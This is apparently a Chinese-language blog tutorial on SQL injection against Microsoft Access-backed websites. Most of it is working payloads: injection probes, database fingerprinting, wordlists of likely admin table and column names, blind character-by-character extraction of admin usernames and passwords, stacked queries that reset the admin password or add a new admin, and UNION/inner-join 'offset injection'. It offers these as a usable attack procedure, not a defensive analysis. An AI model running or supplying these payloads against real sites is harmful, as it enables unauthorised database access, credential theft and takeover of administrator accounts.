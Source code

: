 ```yaml
---
layout: default
category: Web安全
tags: [SQL注入]
---
```


## 0x00 access数据库

> Microsoft Office Access是由微软发布的关系数据库管理系统。它结合了 MicrosoftJet Database Engine 和 图形用户界面两项特点，是 Microsoft Office 的系统程序之一。

### 1、结构

表名---->列名---->内容数据 

它不像其他的数据库一样，里面创建多个数据库然后才是表再是内容

**而access的话只有一个库若干张表。**

## 0x01 注入基本流程

1. 判断有无注入，判断数据库类型
2. 猜解表名
3. 猜解字段
4. 猜解管理员id
5. 猜解用户名和密码长度
6. 猜解用户名的数据内容

### 1、判断有无注入和判断数据库类型

**判断有无注入：**

```php+html
一、数字型
1、 '
2、 and 1 = 1
3、 and 1 = 2
4、 or 1 = 1
二、字符型
1、' and '1'='1
2、' and '1'='2
三、搜索型
1、%'and 1=1 and '%' ='%
2、%'and 1=2 and '%' ='%
```

**判断数据库类型：**

```html
and exists(select * from msysobjects) > 0 //判断access
and exists(select * from sysobjects)>0 //判断sqlserver
```

### 2、猜解表名

一般都是`user 、password、pass、 adminuser、administrator`等表名

1. 常用的表名：`admin user news manage a_admin x_admin m_admin adminuser admin_user article_admin administrator manager member memberlist users                                          Manage_User user_info admin_userinfo login new用户会员` 

```
方法一：
and 0 <> (select count(*) from *)  // <>不等于
方法二：
and exists(select * from admin) > 0  //测试是否存在admin表
and exists(select count(*) from admin) // admin中的列数
```

### 3、猜解字段名

常用的列名：`username password id adminusername admin_username adminname admin_name admin adminuser admin_user user_name user_admin  administrator administrators adminpassword admin_pwd adminpass userpass user_pass  admin_passwod`

```
and exists(select id from admin) 判断是否存在id这个列	
and exists(select username from admin) 判断是否存在username
and 1=(select count(*) from admin where len(username)>0)
and 1=(select count(*) from admin where len(password)>0)
```

### 4、猜解管理员id

```
and exists(select id from admin where id=1) //判断是否存在
...
```

### 5、猜解账户名和密码

```
and (select top 1 len(admin) from admin)=5 //如果返回正常，那么管理员的账号的长度为5
and (select top 1 len(password) from admin)=5 //猜解管理员的密码是否为5
and exists (select id from admin where len (admin) =5 and id=39) //id为管理员id 
```

### 6、猜解用户名数据内容

​     通过ASCII码来判断：

```
方法一：
//第一个数据
and (select top 1 asc(mid(admin,1,1)) from admin) > 100
//第二个数据
and (select top 1 asc(mid(admin,2,1)) from admin) >100
以此类推
...
方法二：
//第一位数据
and 1=(select count(*) from admin where left(username,1)='a')
//第二位数据
and 1=(select count(*) from admin where left(username,2)='ab)
...
```

### 7、更改或添加管理员

```
更改密码：
; update admin set password ='hhhh' where username=admin
添加管理员：
; insert into admin (username,password) values (twoday,hhhh)--
```

## 0x02 偏移注入

**主要原理：** ` *`所表示的字段的顺序被打乱，通过使用inner join查询，从而有可能爆出用户和密码的字段数据。

主要解决表名猜到，列名猜不到的情况。

```
order by n  直到返回不正常，那么列数就是n-1
```

使用 `union` 查询：

```
union select 1,...（n-1） from admin
```

用 `*` 号来从最后一个字段数n-1向前逐个删除来代替，`*` 代表了admin的所有字段。

```
union select 1,2,3,4,5,6,7,8,9,10,11,12,13,..20 from admin
union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,* from admin  //没有报错，说明 * 字段是4
```

首先用两张表来进行查询，应该减去重复的部分也就是这四个字段，不能让这四个字段算两次，这样的话20-4-4=12，语句中只需要罗列出12个数字。
由于：

``` 
20-16 = 4
12+4*2 = 20
8 +4*3 = 20
```

那么可以使用`inner join`查询，`inner join`，我的理解是将一张表虚拟成两张表，所以数据不能重复，需要减去重复的数据，即20-4-4=12，在12后面添加想要查询的数据

```
union select 1,2,3,4,5,6,7,8,9,10,11,12,a.id,b.id,* from (admin as a inner join admin as b on?a.id = b.id)
```

上面的这两种情况还是报错，那么我们继续再来添加一张表，再减去重复的四个字段，20-4-4-4=8，语句中只需要罗列出8个数字。
再次虚拟成三张表，即 20-4-4-4=8 使用inner join查询：

```
union select 1,2,3,4,5,6,7,8,a.id,b.id,c.id,* from ((admin as a inner join admin as b on a.id=b.id) inner join admin as c on a.id=c.id)
```

**第二种方法：**

1. 后台源码的登录表单的参数值
2. 看网站地址链接上的规则
3. 判断对方的cms